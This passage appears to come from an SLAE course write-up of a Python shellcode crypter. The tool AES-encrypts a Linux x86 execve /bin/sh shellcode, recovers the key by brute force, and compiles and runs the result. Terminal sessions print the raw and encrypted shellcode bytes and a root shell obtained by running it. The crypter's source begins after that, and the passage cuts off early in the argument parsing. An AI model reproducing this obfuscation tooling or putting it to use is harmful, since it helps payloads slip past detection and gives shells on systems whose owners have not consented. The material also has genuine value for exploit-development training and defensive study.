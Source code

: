 ## Execution Process

For execution, the script just appends a `shellcode.c` writing process onto the decryption function and then compiles and runs that file. 

## Usage

### Encryption

`python crypter.py --encrypt (-e) <shellcode>`:
```terminal_session
root@kali:~/petprojects/SLAE# python crypter.py -e \\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80

[+] Encrypted Shellcode: \\x2f\\x84\\x39\\x62\\x4b\\x98\\x06\\x9b\\x8f\\xb4\\x3d\\xdc\\x5e\\x65\\x60\\xbf\\x7b\\x96\\xc6\\x52\\x9a\\x4b\\x2c\\xf8\\x5d\\x55\\x12\\x7b\\x37\\x8e\\x56\\x69
```

### Decryption

`python crypter.py --decrypt (-d) <shellcode>`:
```terminal_session
root@kali:~/petprojects/SLAE# python crypter.py -d \\x2f\\x84\\x39\\x62\\x4b\\x98\\x06\\x9b\\x8f\\xb4\\x3d\\xdc\\x5e\\x65\\x60\\xbf\\x7b\\x96\\xc6\\x52\\x9a\\x4b\\x2c\\xf8\\x5d\\x55\\x12\\x7b\\x37\\x8e\\x56\\x69

[+] Bruteforcing key for decryption...
[+] Decrypted Shellcode: \\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80
```

### Execution

`python crypter.py --execute (-x) <shellcode>`:
```terminal_session
root@kali:~# python crypter.py -x \\x2f\\x84\\x39\\x62\\x4b\\x98\\x06\\x9b\\x8f\\xb4\\x3d\\xdc\\x5e\\x65\\x60\\xbf\\x7b\\x96\\xc6\\x52\\x9a\\x4b\\x2c\\xf8\\x5d\\x55\\x12\\x7b\\x37\\x8e\\x56\\x69
Shellcode Length:  25
# id
uid=0(root) gid=0(root) groups=0(root)
# uname -a
Linux kali 4.17.0-kali1-686 #1 SMP Debian 4.17.8-1kali1 (2018-07-24) i686 GNU/Linux
```

The script successfully encrypts, decrypts, and executes shellcode. Success!

You can find the code below, it is pretty heavily commented to help those who are not used to reading ugly python. 

## Crypter

```python
from Crypto.Cipher import AES
from Crypto.Random import random
import argparse
import random
import sys
import os

#doing argument parsing
parser = argparse.ArgumentParser(add_help=True)
parser.add_argument("inp", type=str, help="shellcode to encrypt/decrypt/execute")
parser.add_argument("-e", "--encrypt", help="encrypt shellcode",
                    action="store_true")
parser.add_argument("-d", "--decrypt", help="decrypt shellcode",
```